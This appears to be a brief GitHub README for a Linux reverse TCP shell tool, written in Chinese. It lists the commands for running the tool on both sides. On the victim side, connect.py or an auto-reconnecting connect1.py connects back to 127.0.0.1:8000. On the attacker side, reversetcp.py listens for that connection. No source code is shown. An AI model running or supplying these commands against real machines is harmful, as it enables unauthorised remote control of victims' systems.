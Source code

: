 # linux-tcpreverse
## 受害端反連:

python connect.py 127.0.0.1 8000

python connect1.py (斷線自動連線)
## 攻擊端開啟連線:

python reversetcp.py '' 8000

python reversetcp1.py
